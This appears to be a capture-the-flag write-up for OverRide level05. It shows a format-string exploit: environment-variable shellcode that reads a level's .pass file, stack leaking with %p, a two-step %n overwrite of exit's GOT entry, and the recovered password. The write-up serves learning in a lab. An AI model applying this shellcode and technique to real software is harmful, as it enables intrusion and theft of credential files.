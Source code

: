 Again, it's a string format exploit. 
We start by exporting our shellcode into an environment variable, we already used it quite a few times.

```bash
`export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass")'`
```

We then check the address of the shellcode:

```assembly
(gdb) x/100x *environ
0xffffd790:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xffffd7a0:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xffffd7b0:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xffffd7c0:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xffffd7d0:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xffffd7e0:	0x90909090	0x90909090	0x90909090	0x90909090
[...]
```

And we use the exploit to see where our string can be found in the stack:

```bash
level05@OverRide:~$ cat <(python -c 'print("AAAA" + " %p " * 15)') | ./level05 
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd56f  0xffffd56e  (nil)  0xffffffff  0xffffd5f4  0xf7fdb000  0x61616161  0x20702520  0x20702520  0x20702520  0x20702520  0x20702520 
```

We check where we want to write the address of our environment variable :

```assembly
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   [...]
```

And we go for it : 

```bash
level05@OverRide:~$ cat <(python -c 'print("\xe0\x97\x04\x08" + "%4294957020x" + "%10$n" + " -> %10$p")') | ./level05 
�level05@OverRide:~$ 
```

There is an issue, and it's quite strange because it doesn't print anything....
And it doesn't work because `4294957020` is greater than int32_t max !
So we need to write 2 bytes by 2 bytes:

```bash
cat <(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55256x" + "%10$n" + "%10271x" + "%11$n")') | ./level05
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

```bash
su level6
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

